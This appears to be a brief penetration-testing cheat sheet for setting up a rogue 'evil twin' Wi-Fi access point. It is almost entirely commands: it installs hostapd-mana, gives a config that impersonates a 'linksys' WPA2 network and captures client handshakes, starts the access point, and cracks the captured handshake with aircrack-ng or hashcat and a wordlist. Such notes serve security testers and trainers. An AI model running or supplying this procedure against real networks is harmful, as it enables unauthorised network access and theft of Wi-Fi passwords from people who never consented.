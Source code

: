 ## Rogue Access Point

```text
sudo apt install hostapd-mana
```

```text
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID 
11:22:33:44:55:66  -68       12        1    0   1  130   WPA2 CCMP   PSK  linksys
```


#### Create Configuration file
```text
cat linksys-mana.conf

interface=wlan0
ssid=linksys
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP CCMP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/<name>/linksys.hccapx
```

#### Start Access Point
```text
sudo ip link set wlan0 up	
sudo hostapd-mana linksys-mana.conf
```

Wait for Captured a WPA/2 handshake in output

#### Crack!
```text
aircrack-ng linksys.hccapx -e linksys -w /usr/share/john/password.lst

or ...

hcxhash2cap --hccapx=linksys.hccapx -c out.cap
hcxpcapngtool -o hash.hc22000 -E wordlist out.cap
hashcat -m 22000 hash.hc22000 /usr/share/john/password.lst
```text



